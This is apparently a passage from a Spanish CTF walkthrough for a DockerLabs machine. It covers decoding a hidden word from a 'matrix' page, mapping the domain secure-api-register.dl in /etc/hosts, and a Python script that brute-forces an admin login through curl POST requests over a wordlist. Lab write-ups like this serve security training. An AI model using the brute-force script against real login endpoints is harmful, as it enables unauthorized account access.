 ```
URL = http://<IP>/matrix.php
```

Veremos que si nos funciona, veremos una lluvia de codigo en la pagina, lo malo es que no podremos inspeccionar nada, ni utilizar `curl` o `wget` para traernos el archivo de la pagina, ni nada de eso para ver su codigo fuente, pero si esperamos un poco, podremos ver que se nos va resaltando palabras en un tono mas anaranjado formando una especie de palabra.

Despues de un rato de analizar esa secuencia de palabras, me da como resultado la siguiente frase:

```
secure-api-register
```

Tambien podremos capturar la respuesta del servidor mediante `BurpSuite` y obtener el codigo fuente para poder ver el `JavaScript` y obtener la palabra.

Teniendo esta palabra, podemos deducir que puede ser de un dominio, le añadiremos un `.dl` al final ya que esta subido en `Dockerlabs`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>               secure-api-register.dl
```

Lo guardamos y entramos mediante ese dominio.

```
URL = http://secure-api-register.dl/
```

Veremos un login respecto a una `API` en la nube, pero las credenciales por defecto no nos van a funciona, si nosotros probamos a meter como usuario `admin` y como contraseña tendremos que realizar fuerza bruta de la siguiente forma:

> brutePass.py

```python
import subprocess
import sys

def brute_force(url, username, wordlist):
    try:
        with open(wordlist, "r", encoding="utf-8") as file:
            for password in file:
                password = password.strip()
                print(f"[*] Probando: {password}")

                # Construir el comando curl
                cmd = [
                    "curl", "-X", "POST", url,
                    "-H", "Content-Type: application/json",
                    "-d", f'{{"username": "{username}", "password": "{password}"}}',
                    "-c", "cookie.txt"
                ]

                # Ejecutar el comando y capturar la salida
                result = subprocess.run(cmd, capture_output=True, text=True)
                
                # Revisar la respuesta
                if '{"message":"Invalid credentials"}' not in result.stdout:
                    print(f"[+] Credenciales válidas encontradas: {username}:{password}")
                    break  # Terminar si encuentra una credencial válida
            else:
                print("[-] No se encontraron credenciales válidas.")
    except FileNotFoundError:
        print(f"[!] No se pudo abrir el archivo: {wordlist}")
```